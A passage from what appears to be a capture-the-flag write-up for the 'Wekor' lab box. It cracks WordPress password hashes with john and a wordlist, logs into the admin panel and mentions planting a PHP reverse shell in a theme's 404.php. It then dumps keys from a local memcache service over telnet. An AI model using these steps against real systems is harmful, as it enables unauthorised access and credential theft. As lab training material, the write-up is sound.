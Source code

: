 ```
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
```

## Cracking hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass hash.txt

```
rockyou          (?)
xxxxxx           (?)
soccer13         (?) => Worked out for wp_yura user
```

We can login to website through `site.wekor.thm/wordpress/wp-login.php`. And we are in let's try to get a reverse shell!
Let's edit the 404.php in Theme Editor and put our php reverse shell!

Let's check for abnormal services.

ss -tulpn

```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0         *:68                    *:*                  
udp    UNCONN     0      0         *:631                   *:*                  
udp    UNCONN     0      0         *:44002                 *:*                  
udp    UNCONN     0      0         *:5353                  *:*                  
udp    UNCONN     0      0        :::33592                :::*                  
udp    UNCONN     0      0        :::5353                 :::*                  
tcp    LISTEN     0      10     127.0.0.1:3010                  *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:11211                 *:*    => Hit!!🐛              
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      5      127.0.0.1:631                   *:*                  
tcp    LISTEN     0      128      :::80                   :::*                  
tcp    LISTEN     0      128      :::22                   :::*                  
tcp    LISTEN     0      5       ::1:631                  :::*  
```

It's memcache service for speeding up dynamic web applications by alleviating database load.

# Exploiting Memcache

telnet 127.0.0.1 11211

1. stats slabs => To refer active slabs 

```
STAT active_slabs 1
```

2. stats items => To fetch count, age, eviction, expired etc. organized by slab ID.
3. stats cachedump 1 0 => Dump all keys in a slab

